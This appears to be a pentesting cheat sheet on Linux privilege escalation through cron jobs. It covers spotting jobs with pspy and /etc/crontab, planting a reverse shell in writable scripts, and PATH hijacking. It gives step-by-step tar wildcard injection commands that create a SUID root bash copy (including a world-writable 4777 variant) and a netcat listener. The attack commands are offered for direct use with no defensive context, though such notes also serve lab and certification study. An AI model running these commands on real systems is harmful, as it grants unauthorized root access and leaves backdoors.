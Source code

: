 ## Program to use: pspy https://github.com/DominicBreuker/pspy

### cat /etc/crontab

#### If we have write permissions on the script, we can modify it to enter a reverse shell in it that will automatically run as root.

### Reverse shell source:  Revshells https://revshells.com/

#### Open a listener then wait. 

#### Example: nc -lvnp PORT

### If the full path of the script is not defined in the cronjob, then we can create our own script with the same name and run based on the PATH variables in the /etc/crontab file.

### We can also abuse wildcards for certain cronjobs to gain root.

## Wildcard Injection example:

### If a cronjob contains a wildcard utilizing tar we can do:

#### 1) echo 'cp /bin/bash /tmp/bash; chmod u+s /tmp/bash' > runme.sh

#### 2) chmod +x runme.sh

#### 3) echo "" > --checkpoint=1

#### 4) echo "" > --checkpoint-action=exec=sh runme.sh

#### 5) /tmp/bash -p

### Note: Do the injection in the correct directory the automated script goes to so that it can actually run the injected commands via tar

## Generic wildcard injection

### Example:

### If you detect a cronjob/script that uses wildcard, chances are that it is vulnerable to wildcard injection.

### 1) echo "cp /bin/bash /tmp/bash; chmod 4777 /tmp/bash" > shell.sh

### 2) chmod +x shell.sh

### 3) touch -- '-e shell.sh'



